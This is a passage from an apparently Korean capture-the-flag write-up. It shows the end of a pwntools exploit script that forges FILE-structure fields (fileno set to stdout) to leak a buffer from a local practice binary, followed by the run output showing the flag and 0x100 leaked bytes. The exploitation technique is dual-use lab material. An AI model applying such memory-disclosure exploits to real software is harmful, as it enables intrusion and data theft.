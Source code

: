     payload += p64(0)
    payload += p64(0) 
    
    payload += p64(1) # stdout
    
    print(p.sendlineafter("Value: ", str(payload)))
    
    p.interactive()
    ```
    

```zsh
╭─root@8e7cea269c13 ~
╰─➤  python3 file_ar3.py
[+] Starting local process './file_ar3': pid 605
b'FILE PTR: '
0x1ab0010
b'Addr: '
b'Value: '
[*] Switching to interactive mode
[*] Process './file_ar3' stopped with exit code 0 (pid 605)
FLAG{THIS_IS_FLAG!!!!!!!!!}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00TEST file[*] Got EOF while reading in interactive
```

`flag_buf` 의 값이 0x100 바이트만큼 출력된 것을 확인할 수 있다.